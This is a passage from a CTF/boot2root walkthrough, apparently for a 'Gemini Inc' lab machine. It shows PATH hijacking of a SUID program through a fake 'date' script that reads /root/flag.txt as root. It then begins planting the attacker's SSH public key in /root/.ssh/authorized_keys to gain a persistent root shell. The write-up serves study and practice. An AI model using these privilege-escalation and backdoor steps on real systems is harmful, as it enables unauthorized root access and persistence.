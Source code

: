 Now we have to trick the system to execute what we want:  

gemini1@geminiinc:~$ export PATH=/home/gemini1:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games  
>gemini1@geminiinc:~$ env  
>...
>PATH=/home/gemini1:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games  

This is a pretty shitty way to solve the challenge, but It counts as well. We can execute code as root...  

gemini1@geminiinc:~$ cat date  
whoami  
ls /root/  
cat /root/flag.txt  

gemini1@geminiinc:~$ chmod +x date  

gemini1@geminiinc:~$ listinfo  
...    
displaying current date...    root  
displaying current date...    flag.txt  
displaying current date...    mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm  
displaying current date...      
displaying current date...    Congratulations on solving this boot2root machine!  
displaying current date...    Cheers!  
displaying current date...             _.._..,_,_  
displaying current date...            (          )  
displaying current date...             ] ,"-.-~~[  
displaying current date...           .=])' (;  ([  
displaying current date...           | ]:: '    [  
displaying current date...           '=]): .)  ([  
displaying current date...             |:: '    |  
displaying current date...              ~~----~~  
displaying current date...    https://twitter.com/sec_9emin1  
displaying current date...    https://scriptkidd1e.wordpress.com  
displaying current date...      
displaying current date...    mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm  

  
### GETTING ROOT SHELL  

Yes, it didn't feel right. So, there's a couple other ways to get a root shell.  

First one, generating a authorized_keys in the server as root:  

kali@kali:~$ ssh-keygen   
>Generating public/private rsa key pair.  
>Enter file in which to save the key (/home/kali/.ssh/id_rsa):   

kali@kali:~$ cat /home/kali/.ssh/id_rsa.pub   
>ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAA...+7Zvz kali@kali  

gemini1@geminiinc:~$ cat date  
>mkdir /root/.ssh/  
>echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAA...+7Zvz kali@kali' > /root/.ssh/authorized_keys  
